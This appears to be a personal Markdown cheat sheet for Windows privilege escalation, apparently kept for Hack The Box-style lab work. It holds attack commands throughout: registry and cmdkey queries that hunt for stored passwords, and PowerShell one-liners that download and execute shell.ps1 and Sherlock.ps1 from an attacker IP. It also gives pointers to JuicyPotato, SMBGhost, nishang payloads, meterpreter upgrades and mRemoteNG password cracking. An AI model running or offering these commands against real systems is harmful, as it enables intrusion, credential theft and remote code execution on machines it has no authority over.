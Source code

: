 # privesc

If there is SeImpersonate privilege here you can run the JuicyPotato exploit to get a system shell, and there might be some privileges that you can use if its an AD environment

```
whoami /priv
```

windows last patched march 2020 or before, you can try SMBGhost vulnerability

```
wmic qfe list
(https://github.com/danigargu/CVE-2020-0796)
```

```
reg query HKLM /f pass /t REG_SZ /s
cmdkey /list
```

Once you get a shell on the box, you can run Sherlock to check if you have any vulnerable exploits

```
iex(new-object net.webclient).downloadstring('http://10.10.14.28/shell.ps1')

# sometimes when powershell doesn't load properly, its worth to try this way
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.25/Sherlock.ps1') | PowerShell -Noprofile -
```

if you're on `meterpreter`, run the exploit suggester with both x86 meterpreter and x64 meterpreter.

```
# collection of payloads and powershell scripts
https://github.com/samratashok/nishang

# local windows exploit suggester that you can run in you linux machine
https://github.com/AonCyberLabs/Windows-Exploit-Suggester
# to run powershell script on the shell windows machine for exploits
https://github.com/rasta-mouse/Sherlock

# this can be used to get a meterpreter shell once you've got a normal shell
https://github.com/trustedsec/unicorn
```

```
https://0xdf.gitlab.io/2019/09/07/htb-bastion.html#privesc-to-administrator

mremoteng privesc by cracking passwords in the mremoteng xml file..
```
